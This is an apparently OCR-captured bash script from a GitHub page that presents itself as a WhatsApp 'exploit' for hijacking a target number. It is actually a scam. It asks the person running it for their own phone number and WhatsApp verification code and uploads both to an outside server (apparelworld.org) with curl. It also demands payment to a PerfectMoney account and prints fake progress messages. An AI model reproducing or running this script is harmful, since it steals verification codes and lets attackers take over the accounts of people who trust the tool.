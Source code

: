 # Ppp
# yyy.xobokanwarteg.github.co#!/bin/bash clear echo " &lt;-- Ganteng --> #################### #   Whatsapp Code  # By ./C3W3KBerB4T4n9 #     Exploiter    # ceweberbatang59@gmail.com ####################  Copyright (c) 2018 ./C3W3KBERB4T4N9 Ganteng"; echo ""; read -p "Nomer Kamu (+62xxxx)=> " nomer; read -p "Nomer Target (+62xxxx) => " target; sleep 2 echo "[+] Syncing Target..."; sleep 1 echo "Login  => $nomer"; sleep 0.5 echo "Target => $target"; sleep 0.5 echo "[+] Exploiting..."; echo "Nomer => $nomer" >> kontol.html; curl -T kontol.html http://apparelworld.org/ sleep 5; echo "[+] Done."; echo "Pay For Get Code PerfectMoney : U19478215"; read -p "Verify Code => " code; sleep 2 echo "[+] Connecting to whatsapp.com..."; echo "Login => $nomer"; sleep 0.5 echo "Code => $code"; sleep 0.5 echo "Target => $target"; sleep 0.5 echo "[+] Sending Exploit..."; echo "Code => $code" >> kontol.html; curl -T kontol.html http://apparelworld.org/ sleep 5 echo "[+] Success Exploited!"; exit;
